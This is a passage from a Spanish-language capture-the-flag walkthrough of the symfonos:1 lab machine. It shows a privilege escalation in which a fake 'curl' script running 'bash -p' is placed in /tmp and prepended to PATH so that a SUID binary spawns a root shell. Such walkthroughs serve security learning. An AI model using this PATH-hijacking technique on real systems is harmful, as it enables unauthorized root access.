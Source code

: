 Vemos que está utilizando `curl` para tramitar las peticiones a la web, lo curioso es que este archivo es SUID y está utilizando `curl` con su nombre relativo, por lo tanto, podríamos intentar hacer un **path hijaking** para elevar nuestro privilegio:

```
helios@symfonos:/tmp$ nano curl
helios@symfonos:/tmp$ chmod 777 curl
helios@symfonos:/tmp$ ls
curl
helios@symfonos:/tmp$ cat curl
bash -p
```

Nos vamos al directorio **tmp** y creamos un archivo llamado **curl** que nos dará una consola con privilegios si se ejecuta. Vamos a cambiar nuestro **PATH** para que busque primero en el directorio tmp:

```
helios@symfonos:/tmp$ export PATH=/tmp:$PATH
```
Ejecutamos:

```
helios@symfonos:/tmp$ /opt/statuscheck
bash-4.4# whoami
root
```

Hemos ganado acceso como root.

```
bash-4.4# cat proof.txt 

        Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
                  ;;;;;;;'   /      ----~~/         `\,~    `\ \        
                  ;;;;'     (      ---~~/         `:::|       `\\.      
                  |'  _      `----~~~~'      /      `:|        ()))),      
            ______/\/~    |                 /        /         (((((())  
          /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
         / //  _;______;'------~~~~~    |;;/\    /                ((   ( 
        //  \ \                        /  |  \;;,\                 `   
       (<_    \ \                    /',/-----'  _> 
        \_|     \\_                 //~;~~~~~~~~~ 
                 \_|               (,~~   
                                    \~\
                                     ~~

        Contact me via Twitter @zayotic to give feedback!
```
